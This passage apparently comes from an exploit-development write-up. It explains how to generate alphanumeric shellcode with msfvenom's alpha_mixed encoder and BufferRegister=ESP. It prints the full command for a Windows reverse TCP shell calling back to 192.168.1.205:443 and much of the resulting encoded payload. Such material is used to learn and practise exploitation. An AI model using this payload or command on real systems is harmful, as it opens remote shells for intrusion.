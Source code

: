 ## ASCII Shellcode

We know our shellcode cannot have anything over `7f` in it which is the last ASCII character so we have to have an 'alpha numeric' shellcode. After some digging, I found this explainer from [Offensive Security](https://www.offensive-security.com/metasploit-unleashed/alphanumeric-shellcode/) which describes how the process works. 

We have to use the `-e x86/alpha_mixed` option when we generate our payload in `msfvenom`; however, this also will not cut it. If we do this, we end up with this character set prepended to our shellcode every single time: `\x89\xe2\xdb\xc3\xd9\x72`. According to Offensive Security, *the opcodes...at the beginning of the payload...are needed in order to find the payloads absolute location in memory and obtain a fully position-independent shellcode. Once our shellcode address is obtained through the first two instructions, it is pushed onto the stack and stored in the ECX register, which will then be used to calculate relative offsets. However, if we are somehow able to obtain the absolute position of the shellcode on our own and save that address in a register before running the shellcode, we can use the special option BufferRegister=REG32 while encoding our payload.*

So in summary, the shellcode uses this sequence of characters to find the absolute location of shellcode in memory, but if you know the absolute location as it relates to a register we can use the `BufferRegister` option and specify a register the shellcode resides in. Well, we know that the shellcode resides in `ESP` so we should be good to go!

This was my problem with the SEH overwrite, I couldn't get the program to overflow in a way that would place our payload after the Net Jump in a register...but I digress...

### Generating the Shellcode

To generate our special shellcode we use the following command: 
```terminal_session
msfvenom -p windows/shell_reverse_tcp EXITFUNC=thread LHOST=192.168.1.205 LPORT=443 -f c -b '\x00' -e x86/alpha_mixed BufferRegister=ESP
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
Found 1 compatible encoders
Attempting to encode payload with 1 iterations of x86/alpha_mixed
x86/alpha_mixed succeeded with size 702 (iteration=0)
x86/alpha_mixed chosen with final size 702
Payload size: 702 bytes
Final size of c file: 2973 bytes
unsigned char buf[] = 
"\x54\x59\x49\x49\x49\x49\x49\x49\x49\x49\x49\x49\x49\x49\x49"
"\x49\x49\x49\x37\x51\x5a\x6a\x41\x58\x50\x30\x41\x30\x41\x6b"
"\x41\x41\x51\x32\x41\x42\x32\x42\x42\x30\x42\x42\x41\x42\x58"
"\x50\x38\x41\x42\x75\x4a\x49\x49\x6c\x6a\x48\x6d\x52\x33\x30"
"\x55\x50\x77\x70\x73\x50\x6b\x39\x5a\x45\x75\x61\x69\x50\x63"
"\x54\x4e\x6b\x42\x70\x56\x50\x4e\x6b\x70\x52\x64\x4c\x4e\x6b"
"\x72\x72\x54\x54\x4c\x4b\x34\x32\x44\x68\x54\x4f\x6f\x47\x32"
"\x6a\x36\x46\x36\x51\x39\x6f\x6e\x4c\x77\x4c\x55\x31\x53\x4c"
"\x47\x72\x76\x4c\x31\x30\x39\x51\x38\x4f\x76\x6d\x36\x61\x48"
"\x47\x79\x72\x6b\x42\x42\x72\x66\x37\x6e\x6b\x72\x72\x34\x50"
"\x4c\x4b\x33\x7a\x37\x4c\x6e\x6b\x62\x6c\x57\x61\x63\x48\x4b"
"\x53\x63\x78\x53\x31\x5a\x71\x46\x31\x6e\x6b\x36\x39\x55\x70"
"\x73\x31\x4a\x73\x4e\x6b\x30\x49\x52\x38\x58\x63\x66\x5a\x30"
"\x49\x6c\x4b\x36\x54\x4c\x4b\x45\x51\x49\x46\x36\x51\x39\x6f"
"\x4e\x4c\x6f\x31\x68\x4f\x74\x4d\x46\x61\x38\x47\x74\x78\x4b"
"\x50\x52\x55\x4c\x36\x73\x33\x61\x6d\x49\x68\x77\x4b\x73\x4d"
"\x77\x54\x70\x75\x5a\x44\x73\x68\x4e\x6b\x72\x78\x31\x34\x73"
"\x31\x79\x43\x72\x46\x6e\x6b\x54\x4c\x62\x6b\x4c\x4b\x33\x68"
"\x35\x4c\x73\x31\x68\x53\x6c\x4b\x43\x34\x6e\x6b\x55\x51\x68"
"\x50\x6b\x39\x77\x34\x74\x64\x36\x44\x61\x4b\x73\x6b\x33\x51"
"\x71\x49\x32\x7a\x52\x71\x69\x6f\x49\x70\x31\x4f\x63\x6f\x43"
"\x6a\x4c\x4b\x77\x62\x68\x6b\x4c\x4d\x53\x6d\x45\x38\x70\x33"
"\x65\x62\x73\x30\x75\x50\x71\x78\x54\x37\x31\x63\x64\x72\x51"
"\x4f\x33\x64\x75\x38\x42\x6c\x42\x57\x67\x56\x44\x47\x4b\x4f"
"\x79\x45\x4d\x68\x4e\x70\x33\x31\x73\x30\x77\x70\x47\x59\x4f"
```